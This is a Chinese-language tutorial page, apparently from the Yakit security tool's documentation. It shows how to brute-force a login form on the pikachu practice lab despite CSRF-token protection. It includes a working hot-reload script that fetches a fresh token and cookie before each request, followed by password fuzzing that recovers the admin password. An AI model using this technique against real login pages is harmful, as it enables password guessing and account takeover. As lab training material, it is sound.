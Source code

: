 ```yaml
---
sidebar_position: 17
---
```


# 九、热加载场景案例：csrf token保护下的爆破
这篇文章我们将会介绍一个热加载的实际应用案例：csrf token保护下的爆破。我们以pikachu靶场为例，安装pikachu靶场后(**记得要初始化**)，我们打开如下页面：
![](/img/products/yakit/Fuzz-hotpatch-example1/1.png)

任意输入账号密码之后，使用 yakit 的 MITM 模块拦截登录请求，我们可以看到请求如下：
![](/img/products/yakit/Fuzz-hotpatch-example1/2.png)

注意到除了用户和密码之外，还存在一个token的post参数，这是一个csrf token，它主要是用来防止CSRF攻击的，但是这也给我们的爆破增加了一定的难度，因为每次爆破都需要使用一个新的token。那么在这种情况下我们应该如何爆破呢？

首先我们应该来看看token是从哪里获取的，我们继续使用 yakit 的 MITM 模块拦截请求，这次我们拦截的是直接访问该页面的GET请求，当我们将其发送到 Web FUzzer 发送请求后，可以看到其响应中存在token：
![](/img/products/yakit/Fuzz-hotpatch-example1/3.png)

接下来就是使用热加载出手了。我们很容易想到热加载中的"魔术"方法：`beforeRequest`。我们可以在请求发送前，再次发送一个GET请求来获取token值，再用这个值进行爆破，就可以绕过csrf token的保护了。

我们来看看如何实现，首先我们需要在热加载页面中编写热加载内容，代码如下：
```go
beforeRequest = func(req) {
// 发送GET请求，获取响应
rsp, _, err = poc.HTTP(`GET /vul/burteforce/bf_token.php HTTP/1.1
Host: 7f893460-c83a-4bce-83c7-d325ff9b65ba.node4.buuoj.cn:81
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-US;q=0.7
Cache-Control: max-age=0
Referer: http://7f893460-c83a-4bce-83c7-d325ff9b65ba.node4.buuoj.cn:81/vul/csrf/csrfget/csrf_get_login.php
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
X-Forwarded-For: 127.0.0.1
x-forwarded-for: 127.0.0.1
`)
if err != nil {
    return req
}
// 获取GET响应的Set-Cookie
cookie = poc.GetHTTPPacketHeader(rsp, "Set-Cookie")
node, err = xpath.LoadHTMLDocument(rsp)
if err != nil {
    return req
}
// 通过xpath语法获取token的值
tokenNode = xpath.FindOne(node, "//input[@name='token']")
if tokenNode == nil {
    return req
}
token = xpath.SelectAttr(tokenNode, "value")
// 替换token
req = req.ReplaceAll("__TOKEN__", token)
// 替换cookie
req = poc.AppendHTTPPacketHeader(req, "Cookie", cookie)
return req
}
```
这里我们一共做了以下几件事情：
1. 通过GET请求，拿到响应
2. 通过响应拿到Set-Cookie的值
3. 通过xpath语法获取token的值
4. 替换`__TOKEN__`为实际的token
5. 添加POST请求的Cookie为第二步中拿到的Set-Cookie，这样模拟了多个用户同时请求的情况


我们将token参数改为`__TOKEN__`，然后点击**发生请求**按钮，如图所示，显示`username or password is not exists～`而不是`csrf token error`，这证明我们已经成功获取到token了：
![](/img/products/yakit/Fuzz-hotpatch-example1/4.png)

接下来就很简单了，使用我们前面学到的 fuzztag 知识，使用 fuzztag 爆破密码，成功爆破出了admin的密码为123456：
![](/img/products/yakit/Fuzz-hotpatch-example1/5.png)

需要注意的是，我们使用了并发的技术来请求该网站，这也是我们为什么需要先从GET请求的响应中拿到Set-Cookie然后再设置POST请求的Cookie的原因，因为我们需要模拟多个用户同时请求的情况，如果是单个用户请求的话，我们需要将并发改为1。